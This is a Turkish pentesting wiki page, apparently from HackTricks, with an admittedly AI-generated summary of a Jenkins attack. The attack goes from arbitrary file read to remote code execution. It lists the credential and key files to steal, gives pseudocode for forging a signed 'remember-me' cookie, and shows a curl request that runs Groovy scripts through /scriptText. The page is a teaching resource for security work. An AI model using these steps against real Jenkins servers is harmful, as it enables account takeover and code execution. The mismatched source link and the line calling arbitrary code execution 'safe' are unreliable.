 # Jenkins Rastgele Dosya Okuma ile RCE'ye "Beni Hatırla" Üzerinden

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bu blog yazısında, Jenkins'teki bir Yerel Dosya Dahil Etme açığını RCE'ye dönüştürmenin harika bir yolunu bulabilirsiniz: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Bu, bir rastgele çerezin kötüye kullanıldığı ve RCE elde etmek için yerel dosya okuma ile istismar edildiği kısmın AI tarafından oluşturulmuş bir özetidir, kendi özetimi oluşturacak zamanım olana kadar:

### Saldırı Ön Koşulları

* **Özellik Gereksinimi:** "Beni hatırla" etkin olmalıdır (varsayılan ayar).
* **Erişim Düzeyleri:** Saldırganın Genel/Okuma izinlerine ihtiyacı vardır.
* **Gizli Erişim:** Anahtar dosyalardan hem ikili hem de metin içeriğini okuma yeteneği.

### Ayrıntılı İstismar Süreci

#### Adım 1: Veri Toplama

**Kullanıcı Bilgisi Alma**

* Her kullanıcı için `$JENKINS_HOME/users/*.xml` dosyasından kullanıcı yapılandırması ve gizli bilgileri erişin:
* **Kullanıcı Adı**
* **Kullanıcı tohum**
* **Zaman damgası**
* **Şifre hash'i**

**Gizli Anahtar Çıkartma**

* Çerezi imzalamak için kullanılan kriptografik anahtarları çıkartın:
* **Gizli Anahtar:** `$JENKINS_HOME/secret.key`
* **Anahtar:** `$JENKINS_HOME/secrets/master.key`
* **MAC Anahtar Dosyası:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Adım 2: Çerez Sahteciliği

**Token Hazırlığı**

*   **Token Süre Sonunu Hesapla:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Mevcut zamana bir saat ekler
```
{% endcode %}
*   **Token için Verileri Birleştir:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Anahtarını Şifre Çözme**

*   **MAC Anahtar Dosyasını Şifre Çöz:**

```javascript
key = toAes128Key(masterKey)  // Anahtarı AES128 anahtar formatına dönüştür
decrypted = AES.decrypt(macFile, key)  // .mac dosyasını şifre çöz
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**İmza Hesaplama**

*   **HMAC SHA256 Hesapla:**

```javascript
mac = HmacSHA256(token, macKey)  // Token ve MAC anahtarını kullanarak HMAC hesapla
tokenSignature = bytesToHexString(mac)  // MAC'i onaltılık dizeye dönüştür
```

**Çerez Kodlama**

*   **Son Çerezi Oluştur:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Çerez verilerini Base64 ile kodla
```
{% endcode %}

#### Adım 3: Kod Çalıştırma

**Oturum Kimlik Doğrulama**

* **CSRF ve Oturum Token'larını Al:**
* `Jenkins-Crumb` almak için `/crumbIssuer/api/json` adresine bir istek yapın.
* Yanıttan `JSESSIONID`'yi yakalayın, bu `remember-me` çerezi ile birlikte kullanılacaktır.

**Komut Çalıştırma İsteği**

*   **Groovy Script ile POST İsteği Gönder:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy script, sistem düzeyinde komutları veya Jenkins ortamında diğer işlemleri çalıştırmak için kullanılabilir.

Verilen örnek curl komutu, gerekli başlıklar ve çerezlerle Jenkins'e istek yaparak rastgele kodu güvenli bir şekilde çalıştırmanın nasıl yapılacağını göstermektedir.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
